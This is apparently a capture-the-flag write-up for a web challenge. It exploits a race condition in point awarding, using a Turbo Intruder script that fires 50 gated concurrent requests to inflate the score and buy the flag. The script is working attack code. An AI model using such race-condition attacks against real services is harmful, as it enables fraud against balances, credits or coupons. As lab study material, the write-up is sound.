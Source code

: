 This challenge was based on race condition. You are required to answer 3 questions which will give you 10 point each. You have to buy a flag whose value is 100 point.

![image](https://user-images.githubusercontent.com/19681324/158107862-cf51445b-b6c6-4872-849a-8f1eebbca6ee.png)

So we can use turbo intruder here to exploit this race condition. 

Each challenge will give you 10 points

![image](https://user-images.githubusercontent.com/19681324/158210423-283d2c58-dfb4-481e-a83b-bfcdebdf7fb5.png)

If you submit the answer and then try to exploit it with turbo intruder it won't work. Either submit the answer and intercept it with burp then exploit using turbo intruder
or start a fresh session and just replace the cookies

I used the below script for turbo intruder, can be easily found on portswigger github repo

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=50,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for i in range(50):
        engine.queue(target.req,  target.baseInput, gate='race1')

    engine.openGate('race1')

    engine.complete(timeout=5)


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    #if req.status != 404:
    table.add(req)
```
    

Don't forget to add a %s otherwise attack will not succeede. We just need it for execution of the attack
![image](https://user-images.githubusercontent.com/19681324/158211789-ecfec676-d867-4932-8e5b-de9bed94c978.png)

After successful attack we now have 530 point 
![image](https://user-images.githubusercontent.com/19681324/158211962-b38c48d5-520b-4a01-8091-e781ffef93ad.png)

we can easily buy the flag now

![image](https://user-images.githubusercontent.com/19681324/158212039-3d096017-def9-4f17-86c9-dcb49461e75b.png)

**This Link contains python script using threads for exploiting race condition https://ctftime.org/writeup/32471**
